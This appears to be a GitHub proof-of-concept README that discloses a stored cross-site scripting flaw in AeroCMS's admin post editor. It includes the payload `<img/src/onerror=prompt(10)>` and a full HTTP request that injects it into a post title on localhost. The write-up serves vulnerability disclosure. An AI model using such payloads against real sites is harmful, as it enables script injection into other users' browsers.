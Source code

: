# AeroCMS-Stored_XSS-Poc
* Login to admin panel -> `Posts` -> `Add Posts` -> `Post Title` -> inject payload `<img/src/onerror=prompt(10)>` -> The XSS will trigger when clicked  button
* 
* `add_post.php`
![image](https://user-images.githubusercontent.com/79050415/156879687-273b903a-195c-4313-be7a-b4053ecae897.png)
When inserting into the database, the input is not filtered out of html characters
* `post.php`
![image](https://user-images.githubusercontent.com/79050415/156879786-ed53b64e-cf92-4160-aacd-32440b795d32.png)
Even when displaying, the entity cannot be properly encoded
-------------------------------------------------------------
![image](https://user-images.githubusercontent.com/79050415/156879926-c7009ae0-54b5-4b5c-a49f-6c693ce8f2e5.png)
# POC
 * Request
```c POST http://localhost:8080/AeroCMS/admin/posts.php?source=edit_post&p_id=28 HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------85448121341942511952219062291
Content-Length: 1101
Origin: http://localhost:8080
Connection: keep-alive
Referer: http://localhost:8080/AeroCMS/admin/posts.php?source=edit_post&p_id=28
Cookie: Phpstorm-6b6ba5ee=79a50460-3b02-4cde-a5a4-ff6883c16a7b; PHPSESSID=ndh6ks953tmha1ps8cfp4bplf2
Upgrade-Insecure-Requests: 1

-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_title"

<img/src/onerror=prompt(10)>
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_category_id"

1
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_user"

admin
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_status"

published
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_tags"

1
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_content"

<p>111</p>
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="update_post"

Edit Post
-----------------------------85448121341942511952219062291--
```
POC VIDEO
https://drive.google.com/file/d/1kMGPBLKgefvKZj34QxDlPTxXdcT0kRR_/view?usp=sharing

